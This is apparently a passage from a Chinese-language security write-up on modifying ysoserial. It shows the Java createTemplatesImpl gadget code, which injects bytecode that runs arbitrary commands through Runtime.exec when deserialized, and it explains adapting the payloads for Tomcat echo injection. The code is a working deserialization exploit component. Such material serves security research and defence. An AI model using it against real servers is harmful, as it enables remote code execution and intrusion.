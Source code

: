 ```java

    return createTemplatesImpl(command, c, TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);
}


public static <T> T createTemplatesImpl ( final String command, Class c, Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory )
        throws Exception {
    final T templates = tplClass.newInstance();
    final byte[] classBytes;
    if (c == null) {
        // use template gadget class
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(StubTransletPayload.class));
        pool.insertClassPath(new ClassClassPath(abstTranslet));
        final CtClass clazz = pool.get(StubTransletPayload.class.getName());
        // run command in static initializer
        // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
        String cmd = "java.lang.Runtime.getRuntime().exec(\"" +
            command.replaceAll("\\\\", "\\\\\\\\").replaceAll("\"", "\\\"") +
            "\");";
        clazz.makeClassInitializer().insertAfter(cmd);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        clazz.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(abstTranslet.getName());
        clazz.setSuperclass(superC);
        classBytes = clazz.toBytecode();
    } else {
        classBytes = ClassFiles.classAsBytes(c);
    }


    // inject class bytes into instance
    Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
        classBytes, ClassFiles.classAsBytes(Foo.class)
    });

    // required to make TemplatesImpl happy
    Reflections.setFieldValue(templates, "_name", "Pwnr");
    Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());
    return templates;
}
```

可以看到，第二个传入的Class参数，我们并没有用到javassist，而是直接转字节数组，然后放到TemplatesImpl实例的_bytecodes字段中了。

最后，回到ysoserial中有调用Gadgets.createTemplatesImpl的payload类中来，我这边对每一个都做了拷贝修改，例如CommonsCollections11，我拷贝其修改后的类为CommonsCollections11ForTomcatEchoInject，在调用Gadgets.createTemplatesImpl(command[0];的地方，改成了final Object templates = Gadgets.createTemplatesImpl(null, TomcatEchoInject.class);
